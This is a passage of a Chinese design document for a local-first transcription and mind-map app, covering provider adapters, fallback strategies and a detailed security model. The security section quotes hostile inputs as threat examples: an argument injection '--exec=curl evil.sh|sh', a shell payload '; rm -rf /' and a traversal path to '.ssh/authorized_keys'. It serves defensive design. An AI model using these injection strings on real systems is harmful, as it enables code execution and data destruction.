| `OpenAiCompatibleProvider`（可配 `baseUrl`/`apiKey`/`model`） | OpenAI、DeepSeek、Groq、xAI、Moonshot、SiliconCloud、OpenRouter、通义、智谱、**Ollama**、**LM Studio**、**内置 llama.cpp `llama-server`** —— 全部暴露 `/v1/chat/completions` `[文档，未实测]` |
| `AnthropicProvider` | Claude（Messages API 与 OpenAI 格式不同，需要独立实现） |

> 这直接对冲 R-01 §C11 #12（memo.ac 只有 OpenAI 能配 baseURL，Ollama 支持有 bug 还要求填不存在的 API Key）。
> **我们的规则**：`baseUrl` 对所有 provider 都可配；`apiKey` 对本地后端可为空。

- **BYO API Key 优先** `[已定，ADR-003]`。首启不强制配置：没配 Key 时 F1/F2/F3 全部可用（转写不需要 LLM），只有 F4 结构化提示"需要配置 LLM 或安装本地模型"。
- **本地 llama.cpp**：daemon 按需拉起 `llama-server`（`--host 127.0.0.1 --port <随机空闲>`），空闲 N 分钟后自动停（释放显存）。生命周期由 daemon 管，对上层就是一个 `OpenAiCompatibleProvider` 实例。
- **Key 存储**：见 §8.6 与 §9 决策项 1。
- **成本与隐私可见性**：调用云 API 时 UI 明确标注"本次将把转写稿发送到 <provider>"，并统计 token 用量。零遥测承诺不能靠嘴说，要靠 UI 让用户看见数据流向。

### 6.3 思维导图渲染适配层

```ts
interface MindMapRenderer extends Adapter {
  readonly editable: boolean;
  readonly supports: { freeEdges: boolean; summaries: boolean; perNodeStyle: boolean;
                       images: boolean; export: ExportFormat[] };
  mount(el: HTMLElement, doc: MindMapDoc, opts): RendererHandle;
  // RendererHandle: update(doc) / applyOps(ops) / on('change', ops=>…) / export(fmt) / destroy()
}
```

**唯一真相是 `MindMapDoc`（D-02 §2），两个渲染器都只是它的消费者** `[已定，ADR-002 决策 3]`。

| 渲染器 | npm 包（**已核实**） | 角色 | 转换 |
|---|---|---|---|
| `MindElixirRenderer` | **`mind-elixir` v5.14.0** —— ⚠️ 注意 npm 包名**不是** `mind-elixir-core`（那是 GitHub 仓库名，npm 上 404）。ADR-002 与 R-03 的写法需按此订正，请 T-011 在 `package.json` 里用 `mind-elixir` | **默认，可编辑**：拖拽、右键菜单、撤销、节点样式、自由连线(`arrows`)、概要(`summaries`) | `toMindElixir(doc)` / `fromMindElixir(data)` 双向 |
| `MarkmapRenderer` | `markmap-lib@0.18.12` + `markmap-view@0.18.12` + `markmap-common@0.18.9` | 只读视图 + 演示/导出 | **直接构造 `IPureNode` 树**，见下 |

> **[已核实] markmap 的重要发现**：`markmap-lib` 的 `transform(content: string)` **只接受 Markdown 字符串**
> （内部走 `markdown-it` → HTML → `buildTree`），**不能直接喂 JSON 树**。
> **但** `markmap-view` 的 `Markmap.create()` 接受符合 `IPureNode { content, payload?, children }` 的对象。
> → **我们绕过 `transform()`，由 `MindMapDoc` 直接生成 `IPureNode`**，避免 "doc → Markdown → 再解析" 的两次有损转换。
> `toMarkdown(doc)` 仍然保留，但只用于**导出**与"编辑 Markdown 源"入口，不用于渲染路径。

- **转换必须有损失矩阵**（写在 `packages/mindmap` 的文档里）：markmap 无法表达自由连线 `edges`、summary、逐节点样式 → 切到 markmap 视图时 UI **明确提示"该视图不显示 N 条关联线"**，而不是静默丢弃。
- **往返保真**：`MindMapDoc.extensions['mind-elixir']` 存放渲染器私有字段，转换器负责原样保存与回填。这样"用 mind-elixir 编辑 → 存库 → 再打开"不会丢它自己的状态，同时核心 schema 保持干净。
- **导出**：Markdown / OPML / FreeMind(.mm) / JSON 由 `packages/mindmap` 从 `MindMapDoc` **直接生成**，**不经过渲染器**。
  → 顺带修掉 R-01 §C10 #8 记录的 memo.ac issue #133（导出图片文字模糊）：位图导出走 `XMLSerializer` 序列化 SVG + 指定 `scale`，**不用 `html2canvas` 截屏**。
- **零渲染器可用**（例如 CDN 加载失败）时降级为纯文本大纲树，功能不中断。

### 6.4 媒体下载适配层 `[ADR-002 硬要求：yt-dlp 必须可替换]`

```ts
interface MediaSource extends Adapter {
  match(input: string): number;           // 0 = 不接受；越大越优先
  probe(input: string, ctx): Promise<MediaInfo>;    // 标题/时长/封面/可选格式，不下载
  fetch(req: { input: string; destDir: string; preferAudioOnly: boolean;
               signal: AbortSignal; onProgress(p): void }): Promise<FetchedMedia>;
}
```

| 实现 | `match` 规则 | 依赖 | 许可证 |
|---|---|---|---|
| `LocalFileSource` | 本地文件/已上传 asset | ffprobe | — |
| `DirectHttpSource` | HTTP(S) 且 `Content-Type` 为 audio/video，或扩展名命中，或是 HLS `.m3u8` | 自带 fetch + ffmpeg（HLS） | 无风险 |
| `RssSource` | `Content-Type: application/rss+xml` / 内容像 RSS | 自带解析 → 展开为 N 个 enclosure → 交给 `DirectHttpSource` | 无风险 |
| `YtDlpSource` | **兜底**（`match` 返回最低正分），任何 http(s) URL | 子进程 yt-dlp | **GPLv3+**（ADR-002 允许内置） |

**可替换性的具体保证**（这是 ADR-002 明确要求写入 D-01 的回滚路径）：

1. `YtDlpSource` 是**注册表里的一个条目**，删掉它/`enabled:false` 后，`DirectHttpSource` + `RssSource` 仍覆盖播客、RSS、直链、HLS —— **产品不残废**。
2. 业务代码只调 `MediaSourceRegistry.resolve(input)`，**任何地方都不出现 `yt-dlp` 字样**（CI 用 grep 断言：除 `adapters/media-source/ytdlp/` 目录外，全仓库不得出现 `yt-dlp` 标识符）。
3. yt-dlp 二进制走**运行时下载**（ADR-001 C 类，manifest 在 `vendor/manifests/`），不进构建树 —— 改分发意图时只需把 manifest 条目从"默认安装"改成"用户主动启用"，**零代码改动**。
4. yt-dlp **必须能独立于主程序更新**（R-01 §C10 #7：站点反爬变化快）→ 设置页有"更新 yt-dlp"按钮，走同一 downloader + manifest 校验。
5. `MediaInfo` / `FetchedMedia` 是我们的类型，不透传 yt-dlp 的 JSON 结构（它字段极多且不稳定）。

**解析顺序**：先 `DirectHttpSource.probe`（一次 `HEAD`，毫秒级）；不是直链媒体才落到 `YtDlpSource`。这既省时间，也让"我们默认不依赖 GPL 组件"的叙事在技术上成立。

---

## §7 错误处理与降级总策略

### 7.1 错误分类学（先分类，再谈处理）

每个错误有稳定的 `code`（`SCREAMING_SNAKE`），映射到四元组 `{ 严重度, 是否可重试, 用户可读文案 key, remediation 动作 }`：

| 类 | 前缀 | 处理基调 | 例 |
|---|---|---|---|
| 用户输入 | `INPUT_*` | 立即 400，指出哪个字段 | `INPUT_URL_INVALID`, `INPUT_UNSUPPORTED_FORMAT` |
| 前置条件缺失 | `MISSING_*` | job → `blocked` + 可点击修复 | `MISSING_ASR_MODEL`, `MISSING_BACKEND`, `MISSING_LLM_CONFIG` |
| 资源不足 | `RESOURCE_*` | 降级重试一次，仍失败则 blocked | `RESOURCE_DISK_FULL`, `RESOURCE_VRAM_OOM` |
| 外部服务 | `UPSTREAM_*` | 退避重试 → 换源/换 provider | `UPSTREAM_TIMEOUT`, `UPSTREAM_RATE_LIMITED`, `UPSTREAM_AUTH` |
| 子进程 | `PROC_*` | 判定崩溃 vs 正常失败；崩溃计入熔断 | `PROC_CRASHED`, `PROC_TIMEOUT`, `PROC_BAD_EXIT` |
| 数据完整性 | `DATA_*` | **绝不静默继续** | `DATA_CHECKSUM_MISMATCH`, `DATA_SCHEMA_TOO_NEW` |
| 内部缺陷 | `INTERNAL_*` | 500 + 记录完整栈 + 提示"导出诊断包" | — |

**`remediation` 是一等公民**：每个 `MISSING_*` / `RESOURCE_*` 错误都**必须**带一个 UI 能直接渲染成按钮的动作对象（§3.5）。
理由：章程要求 2.1/2.2 是"用户不碰命令行"。如果出错时只能给一段"请安装 CUDA 后端"的文字，用户还是得去查文档 —— 那就等于没做到。

### 7.2 降级矩阵

| 场景 | 降级链 | 用户可见性 |
|---|---|---|
| GPU 后端加载失败 | `cuda → vulkan → cpu` | 一次性提示"已切换到 X（原因：Y）"，并在运行时页面标红失败项 |
| 后端 probe 超时/崩溃 | 直接判定不可用（**不重试**，Ollama 有 AMD 驱动过旧时挂死的先例，R-02 §A.0） | 运行时页面显示"探测超时" |
| ASR 引擎不可用 | `whisper.cpp → sherpa-onnx → browser-webgpu → blocked` | 首次切换时询问；之后记住 |
| 模型太大装不下 | 提示换更小量化（ADR-004 差异化点 1/2） | fit 徽标 `Fits / May be slow / Won't fit` |
| VRAM OOM | 自动重试一次：换 CPU 后端 or 更小量化 | 明确说明"因显存不足已降级" |
| LLM 云 API 失败 | `云 → 本地 llama → 启发式大纲` | 见下 |
| **完全没有 LLM** | **启发式大纲**：按转写段落的停顿长度 + 句末标点 + 关键词密度切主题，生成 2~3 层大纲 | 明确标注"未使用 AI，仅为结构化草稿"，并提示配置 LLM 可获得更好效果 |
| yt-dlp 失败（反爬/需登录） | 提示两条出路：① 启用"从浏览器读 cookie"；② **引导走 F2**（用户自己下载后拖进来） | 给两个按钮 |
| 中文分词扩展（libsimple）加载失败 | FTS5 降级为内置 `trigram` tokenizer（中文可用，只是效果差些） | 设置页提示 |
| sqlite-vec 加载失败 / 索引格式变更 | 关闭语义搜索，关键词搜索照常；索引视为可重建缓存（D-02 §4.4） | 搜索页灰掉"语义"开关 |
| 磁盘满 | 暂停所有下载与转码，job 转 `blocked` | 顶部持久条幅 + 一键"清理缓存" |
| SSE 断开 | `EventSource` 自动重连 + `Last-Event-ID` 重放；仍失败则**降级为 5s 轮询** | 顶部"连接中断，正在重连" |
| daemon 反复崩溃 | 安全模式（§2.7 D） | 诊断页 |

**降级三原则**
1. **降级必须可见**：绝不静默换后端/换模型 —— 用户会以为产品变慢/变差是玄学。
2. **降级必须可回退**：记录"因为 X 失败所以降到 Y"，问题修复后（如装上后端）自动提示"可恢复到 X"。
3. **降级不能级联成雪崩**：熔断器（下节）。

### 7.3 熔断与隔离

- **每个原生后端一个熔断器**：连续 3 次 `PROC_CRASHED` 或 5 次任意失败 → 本会话内标记 `unavailable`（半开：下次 daemon 重启或用户手动"重试"时恢复）。
- **崩溃 ≠ 失败**：非零退出码是"失败"；被信号杀死（SIGSEGV/SIGABRT/SIGBUS）或 OOM-killer 是"崩溃"，只有崩溃计入熔断。
- **子进程输出上限**：stdout/stderr 各 1MB 环形缓冲，超出丢弃最老的（防止一个死循环刷屏的子进程把 daemon 内存吃光）。
- **全局超时**：每个 step 有 `timeoutMs`；ASR 按音频时长动态算（`max(60s, 音频秒数 × 预估RTF × 5)`），不设死值。
- **部分成功优于全盘失败**：转写失败在第 37/100 块 → 前 36 块的结果**保留并可见**，job 标 `failed(partial)`，用户可"从第 37 块继续"。

### 7.4 日志与可诊断性

- 结构化 JSON 日志（`level, ts, mod, jobUid, code, msg, …`），按天轮转，保留 7 天。
- **零遥测**（差异化点：R-01 §C11 #14 —— memo.ac 的隐私政策与"本地优先"宣传矛盾）。日志**只写本地**，无任何自动上报。
- 一键**导出诊断包**：日志 + `runtime.json`（**token 打码**）+ 硬件探测 JSON + 已装后端/模型清单 + 最近 50 条 `job_events` + schema 版本。用户能把它贴到 issue 里。
- **脱敏白名单制**：日志序列化器只输出白名单字段；`token` / `apiKey` / `cookie` / `Authorization` / 完整文件路径中的用户名 一律替换。宁可少记也不泄露。

---

## §8 安全设计

> 威胁模型：本机上的**其它进程**、用户浏览器里打开的**恶意网页**、用户粘贴的**恶意 URL/文件名**、
> 我们下载的**第三方二进制**。**不**把"物理接触本机的攻击者"和"已 root 的系统"纳入模型。

### 8.1 网络暴露面

| 措施 | 细节 |
|---|---|
| 绑定 | `127.0.0.1` only；**永不 `0.0.0.0`/`::`** `[已定，ADR-003]`。CI 加一条 grep 断言禁止 `0.0.0.0` 字面量出现在 `apps/daemon` |
| 子进程监听 | 任何会监听端口的子进程（`whisper-server`、`llama-server`）**必须显式传 `--host 127.0.0.1`** —— memo.ac 的 `whisper-server` 用了默认 `0.0.0.0`（R-01 §B9），是我们明确要避开的错误 |
| 端口 | 随机高端口 + 只在 `runtime.json`(0600) 公布 |
| CORS | **不需要**：SPA 由 daemon 同 origin 托管。CORS 策略 = 全部拒绝（不设 `Access-Control-Allow-Origin`），跨源请求天然被浏览器拦 |
| CSP | `default-src 'self'; script-src 'self'; connect-src 'self'; img-src 'self' data: blob:; media-src 'self' blob:; object-src 'none'; base-uri 'none'; frame-ancestors 'none'` —— 顺带把 clickjacking 也挡了 |

### 8.2 鉴权与 CSRF / DNS rebinding

四道防线，缺一不可：

1. **token**：32 字节 CSPRNG，每次启动重新生成，`runtime.json` 0600。校验用**时间恒定比较**（`crypto.timingSafeEqual`）。
2. **`Host` 头白名单**：必须严格等于 `127.0.0.1:<port>` 或 `localhost:<port>`，否则 **403**。
   → 这是 **DNS rebinding 的唯一有效防护**：攻击者控制的域名解析到 127.0.0.1 后，浏览器发出的 `Host` 是攻击者的域名，被我们直接拒绝。
   （很多本地服务漏了这一条，是本地 API 被远程网页打穿的头号原因。）
3. **`Origin` / `Sec-Fetch-Site` 校验**：所有**非 GET** 请求与所有 **WebSocket 握手**必须携带同源 `Origin`。`Sec-Fetch-Site: same-origin` 作为额外确认。
4. **双提交 CSRF token**：非 GET 请求需带 `X-OpenMemo-CSRF`，值与 session 绑定。cookie 设 `SameSite=Strict; HttpOnly; Path=/`。

补充：
- **session 与 token 分离**：cookie 里是 sid（可单独撤销），不是原始 token。设置页有"注销所有浏览器"。
- **`GET` 也要防**：`/media/**` 是 GET 且靠 cookie，恶意网页理论上可以 `<audio src="http://127.0.0.1:17650/media/asset/…">` 偷内容 —— 但它需要先猜中 uid（ULID，128 bit）**且**猜中端口。再加 `Sec-Fetch-Dest`/`Sec-Fetch-Site` 校验（媒体请求必须是 same-origin）作为第二层 `[设计]`。

### 8.3 插件沙箱

- **禁用 `vm2`** `[已定，ADR-003]`（已废弃 + 已知逃逸）。
- **v1 不做插件系统**，只预留接口。真要做时的方案（按安全性排序）：
  1. **独立子进程 + 窄消息 API**（最安全，天然崩溃隔离，可用 OS 级限制）——推荐。
  2. `node:worker_threads` + `--permission` 权限模型 + 只暴露白名单能力对象。
  3. WASM（能力最弱但沙箱最强）。
- **绝不**用 `eval` / `new Function` / `node:vm` 执行任何来自网络或用户文件的代码。

### 8.4 子进程参数注入防护（**本节是最高风险点**）

**风险陈述**：用户粘贴的 URL、媒体标题、文件名、字幕内容都会流向 `yt-dlp` / `ffmpeg` 的命令行。

**第一层：架构隔离**
`SubprocessRunner`（落地在 `packages/pipeline/src/subprocess/runner.ts`）**应当**是全项目唯一 `spawn` 出口，所有防护集中在这一个文件里审计。
⚠️ **这是约定，尚未机器强制。此前这里写着"CI 用 `no-restricted-imports` 强制，`apps/daemon/src/subprocess/**` 之外禁止 import `node:child_process`" —— 这条 lint 规则从未存在于 `eslint.config.js`（全文 115 行，`child_process` 零命中），`apps/daemon/src/subprocess/` 这个目录也不存在。** 实测产品代码有 5 处 import `node:child_process`，其中 3 处在 runner 之外：`apps/daemon/src/bootstrap/tls.ts`、`apps/daemon/src/main.ts`、`packages/pipeline/src/asr/whisperServer.ts`（另两处在 `packages/runtime/src/selfTest.ts`、`packages/runtime/src/probe/runProbe.ts`）。
**待办：要么补 `no-restricted-imports` 规则 + 显式白名单（这 5 处逐一定性），要么承认本节立论前提"所有防护集中在一个文件里"当前不成立。不要再把它当成已生效的 CI 护栏引用。**

**第二层：绝不经过 shell**
```
✅  spawn(absoluteBin, argv[], { shell: false, ... })
❌  exec / execSync / spawn(..., {shell:true}) / 任何模板字符串拼命令
```
→ 这消灭了 `; rm -rf /`、`$(…)`、反引号、`&&`、管道这一整类经典 shell 注入。
**Windows 额外规则**：Node 在 Windows 上执行 `.bat`/`.cmd` 时**必须**经 `cmd.exe`（这正是 CVE-2024-27980 的成因）→ **二进制 allowlist 只允许 `.exe`，禁止 `.bat`/`.cmd`/`.ps1`**。

**第三层：`shell:false` 挡不住的——参数注入**
即使不经 shell，`argv[]` 里一个以 `-` 开头的元素仍会被目标程序当成**选项**。用户完全可以粘贴 `--exec=curl evil.sh|sh` 当作"URL"。
```
1. URL 必须 new URL() 解析成功；scheme ∈ {http, https}（拒绝 file:/ftp:/data:/javascript:）
2. 拒绝含凭据（user:pass@）的 URL
3. 拒绝 host 解析到 私网/回环/链路本地/元数据地址（127/8, 10/8, 172.16/12, 192.168/16,
   169.254/16, ::1, fc00::/7, 0.0.0.0）→ 防 SSRF 打本机其它服务与云元数据端点
4. 拒绝任何以 '-' 开头的用户输入（即使有 '--' 终止符也拒绝，双保险）
5. 在 argv 中用 '--' 终止选项解析，用户输入永远排在 '--' 之后
   ✅ [已核实] yt-dlp README 的 usage synopsis 原文为
      `yt-dlp [OPTIONS] [--] URL [URL...]` —— '--' 终止符是官方支持的标准写法。
      （但 yt-dlp 官方文档**没有**专门的安全警告段落讨论该攻击面 = UNKNOWN，
        因此第 4 条"拒绝 '-' 开头"仍作为独立防线保留，不依赖 '--'）
6. 长度上限（URL ≤ 2048 字节），禁止控制字符/换行/NUL
```

**第四层：关掉工具自身的危险面**（这一层最容易被遗漏）

| 工具 | 必须强制的参数 | 原因 |
|---|---|---|
| yt-dlp | `--ignore-config`（或 `--no-config-locations`） | **不读用户目录/系统的 `yt-dlp.conf`** —— 否则攻击者只要能写一个配置文件，就能注入 `--exec` |
| yt-dlp | 固定 `--paths <我们的 tmp>`、`-o` 用**常量模板**（如 `%(id)s.%(ext)s`，且 id 会被 yt-dlp 自己 sanitize） | 输出路径绝不含用户可控串 |
| yt-dlp | **绝不传** `--exec` / `--load-info-json` / `--batch-file` / `--cookies <用户路径>` | 这些都是任意执行/任意读文件的入口 |
| yt-dlp | `--no-playlist`（除非用户显式要整个播放列表）、`--max-downloads`、`--max-filesize` | 防止一个 URL 变成 5000 个文件 |
| ffmpeg | 输入路径一律**绝对路径**（自然不以 `-` 开头）；仍显式加 `--` 不适用 → 用 `-i ./relative` 形式兜底 | 防 `-` 开头文件名 |
| ffmpeg | `-nostdin`（否则会抢终端 stdin 挂死）、`-y`、`-hide_banner`、`-loglevel error` | 稳定性 |
| ffmpeg | 处理**远程 URL** 时加 `-protocol_whitelist file,crypto,https,tls,tcp`（按需最小集） | 防 `concat:`/`subfile:`/本地文件读取协议滥用 |
| ffmpeg | **用户可控字符串绝不进 `-filter_complex` / `-vf` / `-metadata`** | filter 语法有自己的转义规则（`:` `,` `[` `]` `'` `\`），是第二套注入面 |
| whisper-cli | `--prompt` 内容是用户可控的**但作为单个 argv 元素**是安全的；长度截断 ≤ 1024 | 防超长 argv（Linux `MAX_ARG_STRLEN` = 128KB）|

**第五层：进程环境与资源**
```
env:      最小白名单（PATH 指向我们的 bin/、HOME、TMPDIR、必要的 LANG）
          显式剔除 LD_PRELOAD / LD_LIBRARY_PATH / DYLD_* / NODE_OPTIONS / PYTHONPATH
cwd:      受管临时目录（绝不是用户目录）
timeout:  必设；到点 SIGTERM → 5s → SIGKILL（整个进程组）
stdio:    pipe，各 1MB 环形缓冲上限
uid/gid:  保持当前用户（不提权）；未来可考虑 Linux 上加 seccomp/namespace [超出 v1 范围]
```

**第六层：不变量（写进代码审查清单）**
> **任何用户可控字符串，只能作为一个完整、独立的 `argv` 元素传递；
> 绝不允许被拼接进另一个参数的内部，也绝不允许成为参数名。**

这一条能覆盖未来新增的任何工具，比逐个工具列黑名单更可靠。

### 8.5 路径穿越与文件名防护

**根本策略：用户永远不提供文件名。**
所有落盘文件名 = **我们生成的 UUID/ULID**（`media/<noteUid>/original.<扩展名白名单>`），用户看到的标题存在 DB 的 `display_name` 字段里。这从根上消灭了 `../../../.ssh/authorized_keys`、Windows 保留名（`CON`/`PRN`/`AUX`/`NUL`/`COM1-9`/`LPT1-9`）、NTFS ADS（`file.txt:evil`）、Unicode 同形字、尾随空格/点等一整族问题。

仍需要的兜底校验（用于必须接受路径的少数入口，如"从磁盘路径导入"、"更改模型目录"）：

```
1. p = fs.realpathSync(path.resolve(input))         ← 必须 realpath：解开 symlink，防符号链接逃逸
2. rel = path.relative(managedRoot, p)
3. 断言 rel !== '' && !rel.startsWith('..') && !path.isAbsolute(rel)
4. Windows 额外：规范化后拒绝 UNC（\\?\, \\server\）与驱动器相对路径（C:foo）
5. TOCTOU：校验通过后立即 open() 拿 fd，之后所有操作用 fd（fstat 复核 inode/大小），不再用路径
```

**扩展名与 MIME**：白名单（音视频扩展名 + 字幕），且以 **magic bytes / ffprobe 实探**为准，不信任用户给的 MIME 或扩展名。

**解压防护**（GPU 后端包是 zip/tar）：
```
- Zip-Slip：每个条目路径按上面 1-4 校验后才写
- 拒绝所有 symlink / hardlink 条目
- 拒绝绝对路径条目与含 '..' 的条目
- Zip bomb：限制 总解压大小（如 ≤ 4GB）、条目数（≤ 50000）、单文件压缩比（≤ 200:1）
- 解压到临时目录 → 全部成功后原子 rename 到目标 → 失败则整体清理（不留半个后端）
- 解压前先校验整包 SHA256（manifest 里的期望值），校验不过不解压 [已定，ADR-004 决策 5]
```

**`/media/**` 端点只接受 asset uid**（§3.1），不接受任何路径参数 —— 这是最有效的一条。

### 8.6 其它

| 项 | 措施 |
|---|---|
| **API Key 存储** | **待 Manager 决策**（§9 决策项 1）。默认方案：存 SQLite 的 `secrets` 表，文件 0600 / 目录 0700，UI **明确告知"未加密存储"**；不写日志、不进诊断包、不出现在 API 响应（只返回 `sk-…abcd` 掩码） |
| **下载物完整性** | 一律 SHA256 校验后才算安装 `[已定，ADR-004 决策 5，GPT4All 范式]`；**判重按 SHA256 不按体积** `[已定，ADR-004 决策 4]` |
| **目录签名** | 远程模型目录 JSON 用 Ed25519 签名，公钥硬编码 `[R-04 §10.3 已提出]` |
| **ad-hoc 签名** | macOS 下载的二进制 `codesign -s -` + `xattr -dr com.apple.quarantine` `[已定，ADR-003 决策 4]`。**注意**：这条命令的参数里有路径，同样走 `SubprocessRunner` 的路径校验 |
| **依赖供应链** | lockfile 必须提交；CI 跑 `npm audit` + license 报告（报告模式，ADR-002）|
| **零遥测** | 无任何自动上报；诊断包只在用户点击时本地生成 |
| **SSRF** | §8.4 第三层的私网拒绝规则同样适用于 `DirectHttpSource`、`RssSource`、以及用户自填的 LLM `baseUrl`（**但 `baseUrl` 需允许 localhost**——Ollama 就在本机 → 该规则对 `baseUrl` 走单独的、更宽松的白名单，且需用户显式确认）|

---

## §9 需要 Manager 决策的事项

见 `coordination/inbox/architect.md`。摘要：

1. **API Key 存储方式**：OS keychain（需原生依赖，`keytar` 已归档无维护）vs 明文 0600 文件 + 明确告知。
2. **默认端口 17650** 是否拍板（需同步给 T-011/T-012/T-013）。
3. **浏览器 WebGPU 作为 ASR worker（L0）** 的 `/ws/asr-worker` 协议归谁写（跨 T-013 契约边界）。
4. 是否引入 **workspace** 层级（我建议不引入，只做 folder 树）。
5. **对外 ULID `uid` + 对内整数 PK** 的双 ID 方案需 T-013 在 `packages/shared` 中对齐。
6. **翻译 / 字幕导出**是否进 v1（章程 F1–F5 未含；D-02 已预留表）。

---

## §10 待验证清单（诚实）

| # | 事项 | 状态 |
|---|---|---|
| V-1 | 端口 17650 的实际占用情况 | 未调研 |
| V-2 | yt-dlp 是否支持 `--` 选项终止符 | ✅ **已核实**（README usage: `yt-dlp [OPTIONS] [--] URL [URL...]`）。但官方无专门安全说明段落 = UNKNOWN |
| V-3 | llama-server / Ollama 的 OpenAI 兼容端点 | 文档级，未实测 |
| V-4 | transformers.js WebGPU whisper 的实际可用性与速度 | **未验证**，Wave 3 需 spike |
| V-5 | Windows 优雅退出的 5 秒窗口与 `taskkill /T` 行为 | 未验证（无 Windows 机器） |
| V-6 | 流式录音的 PCM 与 MediaRecorder 双写时钟漂移量 | 未验证 |
| V-7 | LLM 回填 `startMs/endMs` 的准确率与文本回溯匹配的效果 | 未验证 |
| V-8 | `nice()` / `BELOW_NORMAL_PRIORITY_CLASS` 对 whisper.cpp 吞吐的影响 | 未验证 |
| V-9 | 本文所有时序图 | **设计意图，零代码跑通** |
